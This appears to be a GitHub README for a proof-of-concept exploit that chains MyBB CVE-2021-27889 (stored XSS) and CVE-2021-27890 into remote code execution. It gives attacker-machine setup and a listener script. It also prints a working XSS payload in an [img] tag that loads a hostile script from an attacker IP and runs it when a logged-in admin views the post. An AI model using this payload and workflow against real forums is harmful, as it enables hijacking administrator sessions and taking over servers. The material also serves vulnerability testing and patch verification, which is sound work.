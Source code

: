 # Mybb-XSS_SQL_RCE-POC
Mybb associate CVE-2021-27890 &amp; CVE-2021-27889 to RCE poc
</br>

**Before Use:**

There are two files here:  1.js and attack_listen.py

You should modify these two file:

**1.js:**

modify the mybb forum url and attack url:

```js
var bashurl = 'http://192.168.92.164/mybb/mybb-mybb_1825' #mybb forum url
var attack_url = 'http://192.168.92.165:8080/attack_success' #change the attack machine ip.should keep the same with the attack_listen.py
```
</br>

**attack_listen.py**

modify the attack host and attack port:

```python
attack_host = '192.168.92.165'
attack_port = 8080
```

</br>

**Usage:**

CVE-2021-27889 is xss. You should inject the following payload in "**New Post Thread**" or "**Reply**" or "**Private Messages**" before do the attack.In this demo,I send the payload to "New Post Thread"

*notice that the **192.168.92.165** is the evil server ip,You should change it.*

```html
[img]http://evil.com/xx(http://evil.com/onerror=xs1=String.fromCharCode(47);xa1=document.createElement(/script/.source);xa1.src=xs1+xs1+/192.168.92.165/.source+xs1+/1.js/.source;document.getElementById(/header/.source).append(xa1);//[/img]
```

![](./img/1.png)

</br>

Now Our evil js **1.js** is injected successful.Then we should wait an Admin browsed this Post with loggined admin page cookie.

*Notice that the Admin user have no necessary loggin the forum page.*

</br>

In our waiting time,We should run the "attack_listen.py" in our attack machine, To identify if the Admin user be attacked.

```shell
python3 attack_listen.py
```

</br>

When the Admin user browsed the evil post,the evil js will do the attack:

![](./img/2.png)

</br>

We can receive the information at our attack machine:

![](./img/3.png)



![](./img/4.png)
